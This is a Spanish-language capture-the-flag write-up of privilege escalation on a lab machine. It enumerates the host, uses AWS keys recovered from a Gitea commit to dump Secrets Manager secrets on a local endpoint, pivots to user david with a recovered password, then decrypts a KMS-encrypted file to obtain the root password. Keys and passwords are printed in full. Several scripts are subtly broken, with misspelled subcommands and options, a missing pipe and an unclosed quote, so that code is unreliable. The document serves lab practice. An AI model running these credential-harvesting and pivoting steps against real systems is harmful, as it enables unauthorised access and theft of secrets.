 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
ls
id
sudo -l
pwd
find \-type f 2>/dev/null
```

buscamos para puertos abiertos

```bash
netstat -nat
```

aqui vamos a pasar por `/proc/net/tcp` y passar de **hex** a **decimal** con bash.

1. Copiamos el `/proc/net/tcp` en un fichero data_hex

    ```bash
    cat /proc/net/tcp
    ```

1. recuperamos los puertos

    ```bash
    cat data_hex | awk '{print $2}'
    cat data_hex | awk '{print $2}' | tr ':' ' '
    cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'
    cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}' | sort -u
    ```

1. Passamos del hexadecimal al decimal con bash

    ```bash
    for hex_port in $(cat data_hex | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}' | sort -u); do echo "obase=10; ibase=16; $hex_port" | bc; done
    ```

Continuamos la enumeracion

```bash
cd /
find \-perm -4000 2>/dev/null
ls -la /var
ls -la /opt
ls -la /opt/containerd
ps -faux
ifconfig

cat /home/bot/bot.py
```
El `ps -faux` nos muestra un commando python a un fichero que no existe en esta maquina. Pensamos en un docker o algo parecido.
Aqui no vemos nada interessante. Vamos a crearnos un procmon en bash

```bash
cd /dev/shm
touch procmon.sh
chmod +x procmon.sh
vi procmon.sh
```

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command|kworker"
    old_process=$new_process
done
```

Aqui tampoco vemos nada interessante. Miramos si tenemos binarios installados que corresponden a lo que hemos encontrado en el **GITEA**.

```bash
which aws
```

Vemos que tenemos **aws** installado y en un commit del repository `Log_Manager` podemos ver credenciales con un secret contra un endpoint en el puerto 4566.

```bash
netstat -nat | grep "4566"

aws help
aws secrectsmanager help
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui vemos que tenemos primero que configurar el commando aws.

```bash
aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui ya podemos listar los secretos y recuperamos la data interesante

```bash
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"'
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"'
```

Ahora que tenemos un listado de **ARN** podemos usar del commando `get-secret-value` para cada **ARN**.

```bash
#!/bin/bash

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"' while read aws_secret_key; do
    echo -e "\n[+] Mostrando secreto con el secret_key $aws_secret_key:\n"
    aws --endpoint-url="http://127.0.0.1:4566" secretsmanager get-secret-value --secret-id "$aws_secret_key"
done
```

Aqui podemos ver credenciales y como el usuario **david** esta en el systema intentamos con la credencial encontrada

```bash
su david
Password: EALB=bcC=`a7f2#k
```

Ya hemos podido pivotar al usuario **david** y vemos que en su directorio tiene un proyecto con un fichero encodeado. Vamos a intentar decodearlo con
**aws**.

```bash
cd Projects/Prod_Deployment
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys


aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" kms list-keys
```

Si miramos la funccionalidad de decrypt del aws, vemos que necessitamos una key_id para desencryptar un fichero.

```bash
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid"
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ','
```

Vamos a crear otro script para desencryptar el fichero.

```bash
touch decryptor.sh
chmod +x !$
nano decryptor.sh


#!/bin/bash

declare -a algorithms=(SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256)

for algo in "${algorithms[@]}"; do
    aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ',' | while read key_id; do
        echo -e "\n[+] Probando con el algoritmo $algo la key $key_id:\n"
        aws --endopoint="http://127.0.0.1:4566 kms decrypt --encryption-algorithm $algo --ciphertext-blob fileb:///home/david/Projects/Prod_Deployement/servers.enc --key-id "$key_id"
    done
done
```

Lanzamos el script y vemos el resultado que es un plaintext en base64. Lo desencryptamos en un fichero, y con el commando `file` vemos que el fichero es un gzip.

```bash
echo "..." | base64 -d > file
file file
mv file file.gz
which gunzip
gunzip file.gz
cat file
```

Aqui vemos una contraseña y probamos si es la contraseña del usuario root

```bash
su root
Password: _uezduQ!EY5AHfe2
```

Somos root y podemos ver la flag

